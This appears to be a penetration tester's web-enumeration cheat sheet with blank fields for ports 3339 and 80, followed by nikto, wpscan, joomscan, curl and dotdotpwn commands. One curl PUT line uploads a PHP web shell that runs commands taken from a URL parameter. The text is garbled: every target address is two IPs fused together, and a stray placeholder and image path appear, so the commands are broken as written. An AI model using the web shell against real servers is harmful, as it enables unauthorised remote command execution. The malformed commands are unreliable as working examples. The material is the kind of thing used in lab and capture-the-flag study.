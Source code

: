 ### Port 3339 - Oracle web interface


- Basic info about web service (apache, nginx, IIS)
- Server:
- Scripting language:
- Apache Modules:
- IP-address:

### Port 80 - Web server

- Server:
- Scripting language:
- Apache Modules:
- IP-address:
- Domain-name address:


INSERTCURLHEADER

- Web application (ex, wordpress, joomla, phpmyadmin)
- Name:
- Version:
- Admin-login:


```
# Nikto
nikto -h http://10.10.10.8710.10.10.102

# Nikto with squid proxy
nikto -h 10.10.10.8710.10.10.102 -useproxy http://10.10.10.8710.10.10.102:4444

# CMS Explorer
cms-explorer -url http://10.10.10.8710.10.10.102 -type [Drupal, WordPress, Joomla, Mambo]

# WPScan (vp = Vulnerable Plugins, vt = Vulnerable Themes, u = Users)
wpscan --url http://10.10.10.8710.10.10.102
wpscan --url http://10.10.10.8710.10.10.102 --enumerate vp
wpscan --url http://10.10.10.8710.10.10.102 --enumerate vt
wpscan --url http://10.10.10.8710.10.10.102 --enumerate u

# Joomscan
joomscan -u  http://10.10.10.8710.10.10.102 
joomscan -u  http://10.10.10.8710.10.10.102 --enumerate-components

# Get header
curl -i 10.10.10.8710.10.10.102

# Get everything
curl -i -L 10.10.10.8710.10.10.102

# Check for title and all links
curl 10.10.10.8710.10.10.102 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl 10.10.10.8710.10.10.102 -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://10.10.10.8710.10.10.102/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://10.10.10.8710.10.10.102/test/shell.php

dotdotpwn.pl -m http -h 10.10.10.8710.10.10.102 -M GET -o unix
```

